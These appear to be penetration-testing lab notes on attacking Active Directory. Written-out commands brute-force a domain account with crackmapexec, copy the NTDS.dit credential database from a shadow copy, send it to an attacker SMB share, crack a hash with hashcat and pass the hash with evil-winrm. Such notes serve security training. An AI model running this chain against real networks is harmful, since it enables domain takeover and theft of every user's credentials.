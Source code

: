 # Attacking Active Directory & NTDS.dit

* Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`.
  * This does not mean the SAM database can no longer be used.
  * to log on using a local account in the SAM database can still do so by
    * specifying the `hostname` of the device proceeded by the `Username` (Example: `WS01/nameofuser`)
    * or with direct access to the device then typing `./` at the logon UI in the `Username` field.

**Launching the Attack with CrackMapExec**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

* if the admins configured an account lockout policy, this attack could lock out the account that we are targeting
* At the time of this note (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.

### Capturing NTDS.dit

* `NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources.
  * the `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html).
  * This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

[evil-winrm.md](evil-winrm.md "mention")

**Checking Local Group Membership**

```shell-session
net localgroup
```

```shell-session
Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

**Checking User Account Privileges including Domain**

```shell-session
net user bwilliamson
```

```shell-session
User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

* This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

**Creating Shadow Copy of C:**

* When all the components support Volume Shadow Copy (VSS), you can use them to back up your application data without taking the applications offline
* We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD.
  * It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
 vssadmin CREATE SHADOW /For=C:
```

```shell-session
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**Copying NTDS.dit from the VSS**

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

* [create-smb-server-linux-hack.md](create-smb-server-linux-hack.md "mention")

```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

### Crack the NT hash with hashcat

```
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
Copy
```



* What if we are unsuccessful in cracking a hash?
* use [#pass-the-hash](evil-winrm.md#pass-the-hash "mention")

### Pass-the-Hash Considerations

```
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
